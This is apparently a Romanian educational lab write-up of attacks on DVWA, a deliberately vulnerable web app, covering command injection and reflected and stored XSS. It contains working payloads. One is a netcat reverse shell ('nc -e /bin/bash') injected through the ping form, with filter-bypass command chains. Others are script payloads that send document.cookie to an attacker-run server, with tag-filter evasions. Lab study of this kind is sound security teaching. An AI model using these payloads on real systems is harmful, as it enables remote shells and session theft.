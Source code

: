 ### Atac HTTP:
  <!-- - [Despre HTTP / HTTPS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_http_https.md) -->
  - In scop didactic, am folosit **DVWA** (Damn Vulnerable Web App). Pentru instalare si informatii aditionale: [link](https://github.com/digininja/DVWA).
  - Cuprins:
    - Command Execution <!-- (https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#command-execution) -->
    - XSS reflected <!-- (https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-reflected) -->
    - XSS stored <!-- (https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-stored) -->
 
## **Command Execution**
   <!-- - [Despre Command Injection](https://github.com/Dani780-C/Cyber-security/blob/main/learn/command_injection.md) -->
   - **Not hacked:** *introducem orice adresa IP (ex: 192.168.56.101)*  
   
     Raspuns:  
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_execution_normal.png)  
     Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_execution_low_nothacked.pcapng)  
   - **Hacked:**  
   
     **LOW**  
        - Sursa codului PHP:  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/source_code_low_command_execution.png)  
        
        Pentru ca nu avem niciun fel de validare pe input-ul form-ului, putem scrie orice adresa IP urmat de `;` sau `&&`.  
        De exemplu, executia unui reverse shell: intr-un terminal separat se va executa un listener `nc -lvp 4444`, iar in form-ul aplicatiei se va introduce `192.168.56.101; nc -e /bin/bash 192.168.56.101 4444`  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_reverse_shell.png)  
        
        Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_injection_reverse_shell.pcapng)  
       
     **MEDIUM**  
        - Sursa codului PHP:  
         
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_source_code_medium.png)  
        
        Codul PHP respectiv va inspecta string-ul primit din form si va scoate `;` si `&&`. Daca vom scrie `192.168.56.101; ls` nu se va executa comanda. Daca vom scrie `&` vom pune comanda `ping <adresa IP>` in background si astfel se va rula si urmatoarea comanda inlantuita in string-ul input-ului. De exemplu, vom introduce `192.168.56.101 & hostname & ls & pwd`. De asemenea, putem scrie `<orice string, dar nu o adresa IP valida> || ls`.  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_medium_1.png)  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_2.png)  
        
## **XSS (Reflected)**  
  <!-- - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md) -->
  - **Hacked:**  
    
    **LOW**
      - Sursa codului PHP:

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_low.png)  
      
      Nu avem validare pe string-ul introdus de user. Putem folosi tag-ul `<script></script>` pentru a injecta cod.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
       
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_redirect_page_to_kali.png)  
      
    **MEDIUM**  
       - Sursa codului PHP:  

       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_source_code_medium_xss_reflected.png)  
       
       Urmatorul cod va scoate toate aparitiile string-ului `<script>` din input.  
       Pentru a putea injecta cod pentru a fi rulat, putem inlocui `<script>` cu `<SCRIPT>` sau `<script>` cu `<scr<script>ipt>`.  
       Spre exemplu, putem injecta: `<SCRIPT>alert(document.cookie)</script>` sau `<scr<script>ipt>alert(document.cookie)</script>`.  
       
       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_medium_hacked.png)  

## **XSS (Stored)**  
  <!-- - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md) -->
  - **Hacked:**

    **LOW**  
      - Sursa codului PHP:  

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_stored_xss_source_code_low.png)  
      
      Nu este nicio validare pe string-ul din form.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form in campul message `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
      Pe masina cu Windows 11, daca un user acceseaza pagina cu XSS stored, codul i se va executa si lui, iar pagina lui va fi redirectionata la `http://192.168.56.101:4444`.  
      
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_stored_windows11_cookie.png)  
